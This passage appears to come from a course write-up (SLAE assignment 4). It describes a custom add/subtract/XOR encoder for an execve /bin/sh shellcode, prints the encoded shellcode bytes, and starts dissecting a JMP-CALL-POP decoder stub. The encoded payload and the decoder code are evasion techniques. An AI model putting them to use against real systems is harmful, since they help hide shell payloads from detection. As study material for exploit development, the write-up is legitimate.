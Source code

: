 - Adds 5 to the first 10 bytes
- Subtracts 7 for all remaining bytes
- XOR's all of the arithmetic encoded bytes by `0xd3`

The encoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/encode.rb">here</a>.

```shell
18:32 skawa@skawa-mbp: assignment4 $ ruby encode.rb
[+] C hex format:
"\xe5\x16\x86\xbe\xe7\xe7\xab\xbe\xbe\xe7\x88\xb1\xb4\x51\xf\x9a\x51\x8\x9f\x51\x9\x7a\xd7\x15\xaa";

[+] nasm hex format:
0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa

[+] Total length: 25
18:32 skawa@skawa-mbp: assignment4 $
```

### The Decoder
The decoder is responsible for decoding the encoded shellcode and passing execution on to the stack-based `execve` `/bin/sh` instructions. It uses the well documented `JMP`, `CALL`, `POP` process.

The decoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/decode.nasm">here</a>.


### Dissecting the Decoder


1\. `jmp short encoded_shellcode`

The first instruction performs a short `jmp` to the `encoded_shellcode` procedure.



<br>2\. `encoded_shellcode:`

The `encoded_shellcode:` procedure initiates a `call` to the `decode` procedure. This will redirect execution to the `decode` procedure and push the address of `EncodedShellcode` on to the Stack.

The `encoded_shellcode:` procedure also has the `EncodedShellcodeLen` label, which contains the length of the shellcode for dynamic allocation to the counter register later in the program.


```nasm
call decode
EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
EncodedShellcodeLen equ $-EncodedShellcode
```


<br>3\. `decode:`

The `decode:` procedure is responsible for setting up the `ESI` register to point to the beginning of the `EncodedShellcode`.
